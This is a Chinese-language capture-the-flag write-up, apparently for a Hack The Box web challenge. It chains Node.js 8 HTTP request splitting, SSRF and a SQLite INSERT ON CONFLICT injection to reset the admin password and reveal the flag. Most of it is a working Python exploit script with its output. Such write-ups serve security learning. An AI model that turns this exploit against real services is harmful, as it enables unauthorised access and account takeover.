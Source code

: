 ## 分析

```
FROM node:8.12.0-alpine
```

在 `nodejs <= 8` 的版本中，`http.get` 存在着 `HTTP request splitting` 拆分攻击
如果存在着一个`SSRF`漏洞，那么可以利用这个来发起任意的请求


通过分析代码，可以得知在管理员登录时候会显示出`flag`

```JavaScript
return db.isAdmin(username, password)
        .then(admin => {
            if (admin) return res.send(fs.readFileSync('/app/flag').toString());
```

在用户注册那里存在`sqlite`的`insert`注入，如果我们可以更改`admin`用户的密码，就可以获得`flag`

```SQL
INSERT INTO table (user, password) VALUES ('admin', 'password') ON CONFLICT(user) DO UPDATE SET PASSWORD='1234'
```

因为`nodejs`的问题，所以可以构造`SSRF`，这里需要注意的是，每个不可见字符都需要转换成`Unicode`

```python
#!/usr/bin/env python

import requests
from urllib.parse import quote

def smuggle(data):
    output = ''
    for x in data:
        c = ord(x)
        if c < 0x21 or c > 0x7F:
            c = 0x0100 | c
        output += chr(c)

    return output


register = "username=admin&password=1234') ON CONFLICT(username) DO UPDATE SET password='1234';--"
register = quote(register, safe="=()&,;--+ ")
register = smuggle(register)
body_len = len(register)        # 拆分请求中的空格也要转换


payload = "/ HTTP/1.1\r\n" + \
        "Host: 127.0.0.1\r\n" + \
        "\r\n" + \
        "POST /register HTTP/1.1\r\n" + \
        "Host: 127.0.0.1\r\n" + \
        "Content-Type: application/x-www-form-urlencoded\r\n" + \
        "Content-Length: " + str(body_len) + "\r\n" + \
        "\r\n" + \
        register + "\r\n" + \
        "\r\n" + \
        "POST / HTTP/1.1\r\n" + \       # 或者GET /?x= 也可以
        "Host: 127.0.0.1"               


payload = smuggle(payload)
print(payload)

data = {
    "endpoint": "127.0.0.1" + payload,
    "city": "NewYork",
    "country": "US"
        }

req = requests.post("http://157.245.32.36:31619/api/weather", data=data)
print(req.text)

req = requests.post("http://157.245.32.36:31619/login", data={"username":"admin", "password":"1234"})
print(req.text)

```

运行结果

```bash
/ĠHTTP/1.1čĊHost:Ġ127.0.0.1čĊčĊPOSTĠ/registerĠHTTP/1.1čĊHost:Ġ127.0.0.1čĊContent-Type:Ġapplication/x-www-form-urlencodedčĊContent-Length:Ġ91čĊčĊusername=admin&password=1234%27)ĠONĠCONFLICT(username)ĠDOĠUPDATEĠSETĠpassword=%271234%27;--čĊčĊPOSTĠ/ĠHTTP/1.1čĊHost:Ġ127.0.0.1
{"error":"Could not find NewYork or US"}
HTB{xxxxxxxxxxxxx}
```



# 参考链接

[https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/](https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/)

[https://bugzilla.mozilla.org/show_bug.cgi?id=1447452](https://bugzilla.mozilla.org/show_bug.cgi?id=1447452)

